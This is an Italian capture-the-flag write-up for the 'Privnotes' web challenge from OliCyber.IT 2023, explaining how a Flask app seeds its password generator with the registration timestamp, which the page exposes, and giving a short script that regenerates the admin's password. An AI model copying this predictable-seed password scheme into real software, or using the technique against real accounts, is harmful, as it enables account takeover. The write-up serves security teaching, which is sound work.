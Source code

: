 # OliCyber.IT 2023 - Competizione Nazionale

## [web] Privnotes (45 risoluzioni)

La challenge espone un servizio Flask che permette di registrarsi e creare note private. Tra gli utenti registrati è presente l'utente `admin` che ha creato una nota privata contenente la flag.

### Soluzione

Il servizio Flask permette di registrare un nuovo utente, e di creare note private. Le note private sono accessibili solo dall'utente che le ha create. In fase di registrazione non viene chiesta la password, in quanto viene generata automaticamente dal servizio.

Il modo in cui questa password viene generata è il seguente:

### Exploit

```python
regdate = time.time()
random.seed(regdate)
password = "".join(random.choices(string.ascii_letters + string.digits, k=16))
user = User(username=username, password=password, registration_date=regdate)
```

La password viene generata in base alla data di registrazione, e viene usata come seed per la funzione random.choices(). La data di registrazione viene poi stampata nella lista utenti

```html
<time raw="{{ user.registration_date }}"
  >{{ user.printable_registration_date }}</time
>
```

Basta quindi prendere il seed dentro `raw` e usarlo per generare la password dell'utente `admin`:

```python
import random
import time
import string

known_seed = 12345.12345 # qui va il seed (in float)

def generate_password():
    random.seed(known_seed)
    return "".join(random.choices(string.ascii_letters + string.digits, k=16))

print(generate_password())
```
